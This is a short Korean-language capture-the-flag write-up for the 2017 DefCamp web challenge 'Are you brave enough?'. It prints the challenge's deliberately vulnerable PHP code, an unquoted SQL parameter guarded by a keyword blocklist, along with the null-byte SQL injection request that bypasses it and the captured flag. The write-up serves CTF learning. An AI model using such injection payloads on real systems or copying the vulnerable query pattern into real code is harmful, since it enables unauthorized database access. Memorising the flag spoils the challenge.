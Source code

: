 # [2017_DefCamp] \[Web] Are you brave enough? 

### Solution

`https://brave.dctf-quals-17.def.camp/index.php~`에서 소스코드를 확인할 수 있습니다.

```php
<?php

$db  = mysqli_connect('localhost','web_brave','','web_brave');

$id  = @$_GET['id'];
$key = $db->real_escape_string(@$_GET['key']);

if(preg_match('/\s|[\(\)\'"\/\\=&\|1-9]|#|\/\*|into|file|case|group|order|having|limit|and|or|not|null|union|select|from|where|--/i', $id))
    die('Attack Detected. Try harder: '. $_SERVER['REMOTE_ADDR']); // attack detected

$query = "SELECT `id`,`name`,`key` FROM `users` WHERE `id` = $id AND `key` = '".$key."'";
$q = $db->query($query);

if($q->num_rows) {
    echo '<h3>Users:</h3><ul>';
    while($row = $q->fetch_array()) {
        echo '<li>'.$row['name'].'</li>';
    }

    echo '</ul>';
} else {    
    die('<h3>Nop.</h3>');
}
?>
```

SQL injection 문제입니다. $id 주변에 인용 부호가 안붙어 있는 것을 확인할 수 있습니다.

`https://brave.dctf-quals-17.def.camp/index.php?id=users.id;%00`

```
Users:

Try Harder
DCTF{602dcfeedd3aae23f05cf93d121907ec925bd70c50d78ac839ad48c0a93cfc54}
```

